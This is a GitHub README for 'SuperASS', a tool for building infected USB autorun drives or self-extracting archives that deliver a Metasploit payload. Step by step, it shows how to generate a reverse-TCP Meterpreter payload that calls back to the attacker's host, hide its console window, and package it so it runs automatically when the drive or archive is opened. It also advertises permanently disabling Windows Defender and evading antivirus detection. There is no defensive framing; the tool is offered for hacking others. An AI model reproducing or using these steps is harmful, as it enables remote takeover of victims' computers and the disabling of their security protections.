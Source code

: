
<h1 align="center">SuperASS v1.0</h1>
<p align="center">
  <img src="https://img.shields.io/badge/Version-1.0-green?style=for-the-badge">
  <img src="https://img.shields.io/badge/Author-AbdulazizDXT-green?style=flat-square">
  <img src="https://img.shields.io/badge/Made%20in-Oman-green?style=flat-square">
  <img src="https://img.shields.io/badge/Powerd%20BY-Python%20Metasploit-blue?style=flat-square">
</p>

### [√] Description :

***The best tool to create a USB gadget or a zip file infested with a virus with a quick kill protection with Metasploit!***

### [+] Installation

##### The SuperASS project is set up first in Kali Linux, and then the virus boot is set up in Windows :

* You can set up the project initially in Termux, but the remaining steps in preparing a zip file or creating a boot disk require Windows.

 - For KALI Linux :
    - ```git clone https://github.com/AbdulazizDXT/SuperASS```
    - ```cd SuperASS```
    - ```chmod +x install.sh```
    - ```./install.sh```

#### Or, directly run "Root Users {sudo su}"
```
git clone https://github.com/AbdulazizDXT/SuperASS ;cd SuperASS ;chmod +x install.sh ;./install.sh

```
## [+] Usage

1. Run the script
2. SuperASS file window will open automatically after installation
3. Open Terminal and Type "msfvenom -p python/meterpreter/reverse_tcp LHOST={YourIPAddres} LPORT={Your Port} -o Update.py
4. ReName file --> "Update.py" to "Update.pyw" For hide python console
5. Copy the Update.pyw file to the Open SuperASS window and click Replace
6. Now the file must be transferred to the Windows system to start creating an exe file for the virus in the USB or zip files


## [+] Use SuperASS In USB AutoRun :

1. Download USB AutoRun Creator From : https://www.samlogic.net/demos/files/USBAC-DEMO-ENG-SETUP.exe
2. Install & Open after Installation 
3. Now the previously modified SuperASS file should be present in your Windows system
4. After you run the autorun program, choose the file MIN (1).exe & Then choose the USB disk & click create
5. Now copy all the contents of the SuperASS file to the USB and then remove it, but beware not to put it again on your device, it may kill the protection completely and make it difficult to restore it, except by upgrading to the new versions of Windows such as the Insider version

### [+]  Use SuperASS In Zip File AutoRun :

1. Download WinRAR From : https://www.win-rar.com/download.html?&L=0
2. Install & Check [√]
3. Go to the SuperASS file and then right click and click on Add to archive &  Click OK to start pressing... 
4. After compressing the file, open it, then choose the "SFX" option, then "Advanced SFX Option" & Setup Option
5. Type MIN (1).exe & Press OK & OK to Exit
6. Now you can use zip file for hacking / Do not try on your device

### Features:

 - Under 10s to install payload in target device
 - connect Metasploit to hacking
 - Python Quiet install
 - autorun payload in startup windows
 - kill windows defender forever
 - {5 security vendors and no sandboxes flagged this file as malicious} in ViursTotal <57/5>
 - This is the antivirus that detected the virus {Antiy-AVL, GData, Microsoft, ClamAV ,Ikarus}
 - Soon a copy will be released that disables all antivirus programs!
